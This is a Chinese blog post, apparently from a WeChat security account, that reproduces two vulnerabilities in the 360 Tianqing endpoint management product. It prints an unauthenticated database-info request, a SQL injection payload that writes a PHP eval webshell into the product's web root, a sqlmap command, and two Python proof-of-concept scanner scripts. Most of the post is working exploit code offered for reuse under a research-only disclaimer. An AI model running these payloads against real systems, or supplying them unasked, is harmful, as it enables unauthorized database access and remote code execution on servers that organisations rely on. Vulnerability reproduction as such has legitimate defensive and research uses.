 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/udn2lt7x_2IY7jD872vflQ)

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcPO7Gtxz7NJKT1GzOCbmVVCS19U2mdiaLDhicIN3SeoQU9KIlK0R5F0RVgzvcoFiawsBxTojPAVoXBg/640?wx_fmt=png)

天擎_越权访问 & 天擎_前台 sql 注入复现

一、天擎_越权访问

POC：  

```
GET /api/dbstat/gettablessize HTTP/1.1
```

直接访问可获取数据库相关信息：  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcPO7Gtxz7NJKT1GzOCbmVV4HcqeFNfia1qFcNLl06aCT0HXMuMcwHlg4YGsVhceJW2c3GhmiaDmhSg/640?wx_fmt=png)

脚本：  

python3 poc.py http://ip+port

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcPO7Gtxz7NJKT1GzOCbmVVXk1ulBrTYjeJnMcVTYfAhFhIBjxtwicWycXLw0Uuos2yYvwNK4yZtIQ/640?wx_fmt=png)

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
'''
name: 360天擎未授权访问
referer: 360天擎未授权访问 IP:port/api/dbstat/gettablessize
author: thelostworld
description: 360天擎未授权访问。
免责声明：本站提供安全工具、程序(方法)可能带有攻击性，仅供安全研究与教学之用，风险自负!
'''
import sys
import warnings
import requests
import click
from concurrent.futures import ThreadPoolExecutor

W = '\033[0m'
G = '\033[1;32m'
R = '\033[1;31m'
O = '\033[1;33m'
B = '\033[1;34m'


def run(url):
    result = ['','不存在']
    payload = "/api/dbstat/gettablessize"
    vulnurl = url + payload
    if("http" in vulnurl):
        vulnurl = vulnurl
    else:
        vulnurl = "http://" + vulnurl
    try:
        req = requests.get(vulnurl,timeout=1, verify=False)
        if r"schema_name" in req.text :
            result[1] = '存在'
            result[0] = vulnurl
            print(G,result[1]+result[0]+'\r\n'+req.text,W)
        else:
            result[1] = '不存在'
    except:
        result[1] = '不存在'
    return result

if __name__ == "__main__":
    warnings.filterwarnings("ignore")
    testVuln = run(sys.argv[1])
```

二、天擎_前台 sql 注入

poc：

```
/api/dp/rptsvcsyncpoint?ccid=1';create table O(T TEXT);insert into O(T) values('<?php @eval($_POST[1]);?>');copy O(T) to 'C:\Program Files (x86)\360\skylar6\www\1.php';drop table O;--
```

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcPO7Gtxz7NJKT1GzOCbmVVqXC3GF1HxUIOBEMo9O85lqyKUtZVSD2ujDJx9k8hOLP7cictu08UguQ/640?wx_fmt=png)

sqlmap 执行：

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcPO7Gtxz7NJKT1GzOCbmVVj5nSibllt3kSqT9EwkuAWLQ4qibQDnjQURc3R0eRtIGCQ96HoicrkxJnQ/640?wx_fmt=png)

脚本：  

python3 poc.py http://ip+port

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
'''
name: 360天擎SQL注入
referer: 360天擎SQL注入 IP:port/api/dp/rptsvcsyncpoint?ccid=1';create table O(T TEXT);insert into O(T) values('<?php @eval($_POST[1]);?>');copy O(T) to 'C:\Program Files (x86)\360\skylar6\www\1.php';drop table O;-- 
author: thelostworld
description: 360天擎SQL注入。
免责声明：本站提供安全工具、程序(方法)可能带有攻击性，仅供安全研究与教学之用，风险自负!
'''
import sys
import warnings
import requests
import click
from concurrent.futures import ThreadPoolExecutor

W = '\033[0m'
G = '\033[1;32m'
R = '\033[1;31m'
O = '\033[1;33m'
B = '\033[1;34m'

def run(url):
    result = ['','不存在']
    payload = "/api/dp/rptsvcsyncpoint?ccid=1*"
    headers = { "Upgrade-Insecure-Requests": "1", 
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36", 
                "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", 
                "Accept-Encoding": "gzip, deflate", 
                "Accept-Language": "zh-CN,zh;q=0.9", 
                "Connection": "close"
        }
    vulnurl = url + payload
    if("http" in vulnurl):
        vulnurl = vulnurl
    else:
        vulnurl = "http://" + vulnurl
    try:
        req = requests.get(vulnurl, headers=headers, timeout=3, verify=False)
        if r"success" in req.text :
            result[1] = '存在'
            result[0] = vulnurl + '需要进一步验证,SQLMAP语法:sqlmap.py -u "%s" --dbms PostgreSQL --batch'%(vulnurl)
            print(G,result[0],W)
        else:
            result[1] = '不存在'
    except:
        result[1] = '不存在'
    return result
    
if __name__ == "__main__":
    warnings.filterwarnings("ignore")
    testVuln = run(sys.argv[1])
```

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！

![](https://mmbiz.qpic.cn/mmbiz_jpg/uljkOgZGRjeUdNIfB9qQKpwD7fiaNJ6JdXjenGicKJg8tqrSjxK5iaFtCVM8TKIUtr7BoePtkHDicUSsYzuicZHt9icw/640?wx_fmt=jpeg)

个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人 CSDN：https://blog.csdn.net/qq_37602797/category_10169006.html

个人博客园：https://www.cnblogs.com/thelostworld/

FREEBUF 主页：https://www.freebuf.com/author/thelostworld?type=article

语雀博客主页：https://www.yuque.com/thelostworld

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcW6VR2xoE3js2J4uFMbFUKgglmlkCgua98XibptoPLesmlclJyJYpwmWIDIViaJWux8zOPFn01sONw/640?wx_fmt=png)

欢迎添加本公众号作者微信交流，添加时备注一下 “公众号”  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcSQn373grjydSAvWcmAgI3ibf9GUyuOCzpVJBq6z1Z60vzBjlEWLAu4gD9Lk4S57BcEiaGOibJfoXicQ/640?wx_fmt=png)